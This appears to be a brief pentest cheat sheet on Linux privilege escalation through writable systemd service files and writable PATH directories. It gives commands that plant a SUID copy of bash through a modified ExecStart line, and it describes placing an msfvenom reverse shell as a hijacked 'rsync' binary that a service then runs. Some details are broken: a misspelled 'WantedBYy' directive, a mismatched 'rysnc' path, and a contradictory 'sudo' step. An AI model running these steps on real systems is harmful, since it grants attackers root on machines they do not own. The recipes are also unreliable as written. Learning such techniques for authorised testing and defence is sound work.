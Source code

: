 # Writables
-----

### writable .service file:

```bash
/etc/systemd/system/zeno-monitoring.service
```

```bash
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBYy=multi-user.target
```

Change the command in the ExecStart parameter to execute commands
```bash
ExecStart=cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

-------------

### writable $PATH variable
- echo $PATH variable to list out the directories set in the $PATH variable.
- If we have write access to any folder in the PATH and there exists a cron job that we can take advantage of, we can write a shell and get root.

- If we have write access to any folder in the PATH and there exists a service configuration file which uses relative paths, we can get a root shell.
```bash
sudo vim /etc/systemd/system/name.service
ExecStart=rsync
```
- Generate a reverse shell using msfvenom and place it in the folder in PATH
```bash
cp /tmp/rysnc /usr/local/bin/rsync
```
- Restart the service
```bash
sudo systemctl restart name.service
```

